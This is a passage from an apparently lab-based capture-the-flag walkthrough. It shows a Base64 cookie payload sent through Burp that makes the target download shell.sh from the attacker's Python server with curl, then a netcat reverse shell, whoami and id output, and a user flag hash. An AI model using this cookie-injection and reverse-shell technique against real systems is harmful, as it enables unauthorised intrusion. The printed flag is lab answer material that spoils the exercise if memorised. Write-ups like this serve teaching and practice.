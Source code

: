 - Now encode this whole payload to Base64, paste it in Cookie value, change method from POST to GET, start a Python server and start a listener.
  After sending the payload with Burp, you will get a connection on your listener, and you will see that your shell was downloaded from your server with `curl`.

  ```
  BURP REQUEST:

  GET / HTTP/1.1
  Host: 10.10.190.99
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: */*
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Cookie: session=eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbi9[SNIP]b2coc3Rkb3V0KSB9KTtcbiB9KCkifQ==
  Origin: http://10.10.190.99
  Connection: keep-alive
  Referer: http://10.10.190.99/
  Priority: u=0
  Content-Length: 0

  python3 -m http.server 80                                        
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.190.99 - - [26/May/2025 19:57:56] "GET /shell.sh HTTP/1.1" 200 -
  
  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.190.99] 47008
  bash: cannot set terminal process group (662): Inappropriate ioctl for device
  bash: no job control in this shell
  To run a command as administrator (user "root"), use "sudo <command>".
  See "man sudo_root" for details.
  
  ubuntu@ip-10-10-190-99:/opt/webapp$ whoami
  whoami
  ubuntu
  ubuntu@ip-10-10-190-99:/opt/webapp$ id
  id
  uid=1001(ubuntu) gid=1002(ubuntu) groups=1002(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),116(lxd),1001(netdev)  
  ```

---

## 🧍 User Privilege Escalation

- First flag is pretty easy to find.

  ```
  ubuntu@ip-10-10-190-99:/home/dylan$ cat user.txt
  cat user.txt
  0ba48780dee9f5677a4461f588af217c
  ```

---